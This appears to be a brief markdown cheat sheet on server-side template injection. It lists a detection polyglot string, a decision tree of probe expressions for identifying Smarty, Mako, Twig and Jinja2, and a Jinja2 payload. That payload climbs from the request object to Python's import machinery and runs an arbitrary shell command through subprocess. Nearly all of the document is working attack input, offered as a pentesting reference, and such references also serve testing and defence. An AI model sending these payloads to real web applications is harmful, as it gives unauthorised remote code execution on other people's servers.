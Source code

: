 # Server Side Template Injection

## Table of Contents

* [Detect](#detect)
* [Identify](#identify)
* [Exploit](#exploit)
  * [Jinja2](#jinja2)

Created by [gh-md-toc](https://github.com/ekalinin/github-markdown-toc.go)


## Detect

* Try {% raw %}`${{<%[%'"}}%\`{% endraw %}

## Identify

* {% raw %}`${ 7 * 7}`{% endraw %}
  * works -> {% raw %}`a{*comment*}b`{% endraw %}
    * works -> **Smarty**
    * fails -> {% raw %}`${"z".join("ab")}`{% endraw %}
      * works -> **Mako**
      * fails -> ???
  * fails -> {% raw %}`{{ 7 * 7 }}`{% endraw %}
    * works -> {% raw %}`{{ 7 * '7' }}`{% endraw %}
      * works -> if `49` then **Twig**, if `7777777` then **Jinja2**
      * fails -> ???
    * fails -> ???

## Exploit

### Jinja2

You have a request object that is always there

{% raw %}
```
{% print(request.application.__globals__.__builtins__.__import__('subprocess').check_output('QQQ', shell=True)) %}
```
{% endraw %}
